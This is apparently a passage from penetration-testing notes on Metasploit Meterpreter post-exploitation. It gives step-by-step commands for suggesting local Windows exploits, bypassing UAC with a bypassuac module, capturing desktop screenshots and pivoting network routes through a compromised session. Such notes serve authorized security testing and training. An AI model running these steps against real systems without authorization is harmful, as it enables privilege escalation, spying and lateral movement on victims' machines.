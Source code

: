 ### Privilege Escalation

On windows, from the meterpreter prompt:

```bash
run post/multi/recon/local_exploit_suggester
```

#### UAC Bypass

If the meterpereter shell is running in the context of an admin user, you can elevate the privileges of the current shell to a high integrity level, but you must bypass UAC to do so.  

There are several `bypassuac` modules, so check which one works best for the target version of windows.  

1. Background the meterpreter session

   ```bash
   background
   ```

2. Load an appropriate `bypassuac` module

   ```bash
   # Example
   use exploit/windows/local/bypassuac_injection_winsxs
   ```

3. Set the `session` option to the desired meterpeter session & run the module

   ```bash
   set session 1
   run
   ```

### Other Features

```bash
# Capture images of the compromised desktop
screenshot
```

### Meterpreter Pivoting 

You can tunnel traffic through a session which will proxy that traffic through the connected target.

```bash
# Ex. Routes the network through meterpreter session 2
route add 172.16.216.0/24 2

# Show routes
route print
```

NOTE:  When using these routes, shells must use established connections such as `windows/meterpreter/bind_tcp`.    You may NOT use reverse shells since the target will not have  a route back to the target machine.
